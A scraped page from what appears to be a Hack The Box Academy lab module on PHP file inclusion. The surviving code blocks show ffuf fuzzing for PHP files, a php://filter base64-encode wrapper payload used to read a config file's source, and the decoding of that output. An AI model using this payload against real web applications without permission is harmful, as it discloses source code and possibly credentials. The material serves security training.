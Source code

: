 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/23/section/1492
// Platform Version: V1
// Module ID: 23
// Module Name: File Inclusion
// Module Difficulty: Medium
// Section ID: 1492
// Section Title: PHP Filters
// Page Title: Hack The Box - Academy
// Page Number: 4
-->

# PHP Filters

**Module Name:** File Inclusion **Page Number:** 4

#### 

#### FILE INCLUSION

# PHP Filters

## Input Filters

## Fuzzing for PHP Files

``` shell-session
[!bash!]$ ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php

...SNIP...

index                   [Status: 200, Size: 2652, Words: 690, Lines: 64]
config                  [Status: 302, Size: 0, Words: 1, Lines: 1]
```

## Standard PHP Inclusion

![https://academy.hackthebox.com/storage/modules/23/lfi_config_failed.png](https://academy.hackthebox.com/storage/modules/23/lfi_config_failed.png)

## Source Code Disclosure

``` url
php://filter/read=convert.base64-encode/resource=config
```

![https://academy.hackthebox.com/storage/modules/23/lfi_config_wrapper.png](https://academy.hackthebox.com/storage/modules/23/lfi_config_wrapper.png)

``` shell-session
[!bash!]$ echo 'PD9waHAK...SNIP...KICB9Ciov' | base64 -d

...SNIP...

if ($_SERVER['REQUEST_METHOD'] == 'GET' && realpath(__FILE__) == realpath($_SERVER['SCRIPT_FILENAME'])) {
  header('HTTP/1.0 403 Forbidden', TRUE, 403);
  die(header('location: /index.php'));
}

...SNIP...
```

# 

# 

#### Questions

####